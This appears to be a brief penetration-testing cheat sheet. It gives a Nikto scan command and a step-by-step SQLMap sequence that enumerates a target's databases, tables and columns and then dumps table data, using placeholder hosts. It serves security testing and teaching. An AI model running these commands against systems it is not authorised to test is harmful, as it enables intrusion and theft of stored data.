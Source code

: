 # Scanning a webserver with Nikto


## Examples

### Nikto

    nikto -h [IP address] -p 80 -o nikto_scan -F txt

### SQLMap

Identify a page in the target web application that displays data and note the URL. Use in sqlmap:

    sqlmap -u http://urloftargetpage/page.php?id=2 --dbs

If SQL injections are successful, the `--dbs` parameter gives information about the database, such as the 
type of database and the database name.

Then try to retrieve the list of tables from the database:

    sqlmap -u http://urloftargetpage/page.php?id=2 -D databasename --tables

With a list of the table names, get information such as the columns that exist in a table:

    sqlmap -u http://urloftargetpage/page.php?id=2 -D databasename -T tablename --columns

Dump the data stored in a table:

    sqlmap -u http://urloftargetpage/page.php?id=2 -D databasename -T tablename --dump

## Tools

* [Nikto](https://www.kali.org/tools/nikto/)
* [SQLMap](https://www.kali.org/tools/sqlmap/)
